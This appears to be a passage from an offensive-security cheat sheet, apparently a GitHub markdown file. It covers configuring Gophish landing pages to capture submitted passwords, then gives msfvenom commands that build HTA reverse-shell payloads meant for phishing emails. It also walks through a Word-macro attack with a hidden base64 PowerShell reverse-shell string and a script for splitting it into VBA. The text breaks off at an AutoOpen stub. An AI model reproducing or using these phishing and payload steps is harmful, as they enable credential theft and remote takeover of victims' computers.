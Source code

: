 * The action is "" so that form submissions are directed to your phishing page and, therefore, to your Gophish server
* The form submission method is POST 
* Each input which you expect to see in Gophish has a name attribute

Each of these should be checked when troubleshooting HTML forms that don't appear to be sending data correctly.
If you still aren't seeing your form submitted correctly, you may need to review and remove any Javascript on the page interfering with the form submission.
Finally, ensure that when saving the landing page that you have both the "Capture Submitted Data" and "Capture Passwords" (if appropriate) options checked. Otherwise, Gophish will remove the name attributes from your inputs so they aren't submitted with the form. 

### Q2  How i setup Phishing Campaing ? ¯\_(ツ)_/¯ 

You can read this article to get more information about how to set up a phishing campaign!
```
https://www.hackercoolmagazine.com/gophish-setup-a-phishing-campaign/
```
# 
#
# How to Compromise Windows 🦋 system

***You can add this payload to your phishing email. When the victim installs & open this malicious file, you'll get your shell 🐚***

## HTA Attack in Action

We will use msfvenom to turn our basic HTML Application into an attack, relying on the hta-psh output format to create an HTA payload based on PowerShell. 
In Listing 11, the complete reverse shell payload is generated and saved into the file evil.hta.

```
msfvenom -p windows/shell_reverse_tcp LHOST=<your tun0 IP> LPORT=<your nc port> -f hta-psh -o ~/evil.hta
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<your tun0 IP> LPORT=<your nc port> -f hta-psh -o ~/evil64.hta
```
## Exploiting Microsoft Windows using MS Word Macro [ Manually ] 🐓
The Microsoft Word macro may be one the oldest and best-known client-side software attack vectors.

Microsoft Office applications like Word and Excel allow users to embed macros, a series of commands and instructions that are grouped together to accomplish a task programmatically. Organizations often use macros to manage dynamic content and link documents with external content. More interestingly, macros can be written from scratch in Visual Basic for Applications (VBA), which is a fully functional scripting language with full access to ActiveX objects and the Windows Script Host, similar to JavaScript in HTML Applications.
```
Create the .doc file
Use the base64 powershell code from revshells.com
```
Used this code to inline macro(Paste the code from revshells in str variable) :
```
str = "powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA"

n = 50

for i in range(0, len(str), n):
    print "Str = Str + " + '"' + str[i:i+n] + '"'
```
```
Sub AutoOpen()
```
